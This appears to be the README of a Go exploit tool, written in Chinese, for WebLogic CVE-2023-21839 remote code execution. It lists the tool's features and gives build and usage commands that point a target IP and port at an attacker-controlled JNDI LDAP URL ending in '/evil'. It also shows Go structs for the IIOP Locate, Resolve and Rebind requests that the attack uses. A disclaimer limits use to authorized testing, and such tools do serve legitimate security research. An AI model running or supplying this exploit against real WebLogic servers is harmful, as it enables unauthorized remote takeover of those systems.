

## CVE-2023-21839

**未经授权许可使用本项目攻击或测试目标是非法的，本程序应仅用于授权的安全测试与研究目的**

### 介绍

Weblogic CVE-2023-21839 RCE

（1）**无需任何 Java 依赖，构造协议通过socket直接RCE**

（2）已解决 IIOP 的 NAT 网络问题（可测试 Docker 与公网目标）

（3）在 Windows/Mac OS/Linux 以及 Weblogic 12/14 中测试通过

（4）请使用 JDK 8u191 以下启动 Weblogic 并自行搭建 JNDI Server

### 使用

```shell
cd cmd
go build -o CVE-2023-21839
./CVE-2023-21839 -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```



### 其他

Locate Request

```go
type LocateRequest struct {
	Header            *Header
	RequestId         []byte // 4
	TargetAddress     []byte // 2
	_reserved         []byte // 2
	_keyAddressLength []byte // 4
	KeyAddress        []byte // _keyAddressLength
}
```

Resolve Request

```go
type ResolveRequest struct {
	Header             *Header
	RequestId          []byte // 4
	ResponseFlags      []byte // 1
	_reserved1         []byte // 3
	TargetAddress      []byte // 2
	_reserved2         []byte // 2
	_keyAddressLength  []byte // 4
	KeyAddress         []byte // _keyAddressLength
	_operationLength   []byte // 4
	RequestOperation   []byte // _operationLength
	_reserved3         []byte // 1
	ServiceContextList *ServiceContextList
	CosNamingDissector []byte // no limit
}
```

Rebind Request

```go
type RebindRequest struct {
	Header             *Header
	RequestId          []byte // 4
	ResponseFlags      []byte // 1
	_reserved1         []byte // 3
	TargetAddress      []byte // 2
	_reserved2         []byte // 2
	_keyAddressLength  []byte // 4
	KeyAddress         []byte // _keyAddressLength
	_operationLength   []byte // 4
	RequestOperation   []byte // _operationLength
	_reserved3         []byte // 2
	ServiceContextList *ServiceContextList
	StubData           []byte // no limit
}
```